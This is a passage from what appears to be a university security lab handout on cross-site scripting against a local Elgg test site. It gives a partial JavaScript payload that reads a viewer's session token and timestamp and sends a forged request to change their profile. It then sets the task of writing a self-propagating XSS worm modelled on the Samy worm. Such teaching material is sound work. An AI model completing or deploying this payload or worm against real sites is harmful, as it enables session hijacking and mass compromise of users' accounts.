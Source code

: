 \begin{lstlisting}
<script type="text/javascript">
window.onload = function(){
  //JavaScript code to access user name, user guid, Time Stamp __elgg_ts 
  //and Security Token __elgg_token
  var userName=elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;

  //Construct the content of your url.
  var content=...;     //FILL IN

  var samyGuid=...;    //FILL IN
  if(elgg.session.user.guid!=samyGuid)           (*@ \ding{192} @*)
  {
     //Create and send Ajax request to modify profile
     var Ajax=null;
     Ajax=new XMLHttpRequest();
     Ajax.open("POST",sendurl,true);
     Ajax.setRequestHeader("Host","www.xsslabelgg.com");
     Ajax.setRequestHeader("Content-Type",
                           "application/x-www-form-urlencoded");
     Ajax.send(content);
  }
}
</script>
\end{lstlisting}

Similar to Task 4, the above code should be placed in the \texttt{"About Me"} field of Samy's
profile page, and the Text mode should enabled before entering the above JavaScript code.


\paragraph{Questions.} Please answer the following questions:

\begin{itemize}
\item \textbf{Question 3:} Why do we need Line ? Remove this line, and repeat 
your attack. Report and explain your observation.
\end{itemize}
 



\subsection{Task 6: Writing a Self-Propagating XSS Worm}

To become a real worm, the malicious JavaScript program should be able to propagate itself.
Namely, whenever some people view an infected profile, 
not only will their profiles be modified, the worm will also be 
propagated to their profiles, further affecting others who view these newly infected profiles.
This way, the more people view the infected profiles, the faster the worm can propagate. 
This is exactly the same mechanism used by the Samy Worm: 
within just 20 hours of its October 4, 2005 release, over one million users 
were affected, making Samy one of the fastest spreading viruses of all time.
The JavaScript code that can achieve this is called 
a {\em self-propagating cross-site scripting worm}. In this task, you need to 
implement such a worm, which not only modifies the victim's profile and adds the user
``Samy'' as a friend, but also add a copy of the worm itself to the victim's profile, so the
victim is turned into an attacker.


